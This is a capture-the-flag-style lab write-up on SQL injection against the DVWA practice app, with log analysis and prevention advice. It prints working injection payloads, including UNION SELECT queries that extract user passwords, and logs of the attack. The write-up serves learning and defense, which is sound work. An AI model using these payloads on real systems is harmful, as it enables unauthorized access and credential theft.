 # 💉 SQL Injection

SQL Injection allows attackers to input values that are always evaluated as true, bypassing other conditions in the SQL query. For example, an input like `' OR 1=1;` modifies the SQL query behavior, enabling unauthorized access to sensitive data or functionalities. When the web server receives these malicious inputs, the SQL query is constructed, executed, and the results are returned in the web application response.

## Security Settings:

1. **LOW:** 
   - At this level, user input is directly embedded in the SQL query, making it highly vulnerable to SQL injection attacks. For instance, if the query contains `$id` directly:
      ```bash
      $id
      ```
     ![PrintScreen1](https://github.com/cataaptr/Cybersecurity-Practice-Labs/blob/main/img/sqlinj1.png)
     ![PrintScreen2](https://github.com/cataaptr/Cybersecurity-Practice-Labs/blob/main/img/sqlinj2.png)
     
   - By injecting a condition that always evaluates as true (e.g., `' OR 1=1;`)
   ```sql
      1' or '1'='1;
      ```
    ![PrintScreen3](https://github.com/cataaptr/Cybersecurity-Practice-Labs/blob/main/img/sqlinj3.png)
   
   ```sql
   ' UNION SELECT user , password FROM users#
   ```
   ![PrintScreen4](https://github.com/cataaptr/Cybersecurity-Practice-Labs/blob/main/img/sqlinj4.png)
   

2. **MEDIUM:**
    - What we tried before does not work now:
   ![PrintScreen5](https://github.com/cataaptr/Cybersecurity-Practice-Labs/blob/main/img/sqlinj5.png)
   - At this level, the attacker can use `UNION SELECT` to combine results from different tables within the same query, such as extracting user passwords from the `users` table.
      ```sql
      1 or 1=1 UNION SELECT user, password FROM users#
      ```
   
   ![PrintScreen6](https://github.com/cataaptr/Cybersecurity-Practice-Labs/blob/main/img/sqlinj6.png)

## Log Analysis:

> **Note:** `[IP_ADDR]` is used to anonymize the IP address for privacy. It represents the IP address from which the request originated.

1. **Sample Logs:**
   ![PrintScreen7](https://github.com/cataaptr/Cybersecurity-Practice-Labs/blob/main/img/log1.png)
   - `[IP_ADDR] - - [19/May/2024:12:55:11 -0400] "POST /dvwa/security.php HTTP/1.1" 302 - "http://[IP_ADDR]/dvwa/security.php" "Mozilla/5.0 ..."`
     - This line shows a POST request to `security.php`, resulting in a temporary redirect (HTTP response code 302). This redirection might be part of an authentication process where the user is directed to another page after submitting credentials.
   
   - `[IP_ADDR] - - [19/May/2024:12:55:14 -0400] "GET /dvwa/vulnerabilities/sqli/ HTTP/1.1" 200 4333 "http://[IP_ADDR]/dvwa/security.php" "Mozilla/5.0 ..."`
     - This successful GET request accesses the `sqli/` page, indicating a possible attempt to test for SQL injection.
   
   - `[IP_ADDR] - - [19/May/2024:13:01:41 -0400] "GET /dvwa/vulnerabilities/sqli/?id='%20UNION%20SELECT%20user,%20password%20FROM%20users%23&Submit=Submit HTTP/1.1" 200`
     - An attempt to retrieve usernames and passwords using `UNION SELECT`, with a successful response (HTTP 200), confirming the application is vulnerable.

## Effects of SQL Injection:

- Compromises web application integrity
- Allows unauthorized access to sensitive data, such as usernames, passwords, personal information, and financial details
- Data modification or deletion
- Unauthorized actions may be performed by the attacker within the application

## Prevention Measures:

- **Use Parameterized Queries and Prepared Statements:** Construct and execute SQL queries in a way that avoids SQL injection vulnerabilities.
- **User Input Validation and Filtering:** Sanitize and validate all user inputs.
- **Principle of Least Privilege:** Limit database access permissions for accounts used by the application.
- **Regular Auditing and Monitoring:** Routinely audit SQL queries, database activity, and monitor web traffic for signs of SQL injection attacks.
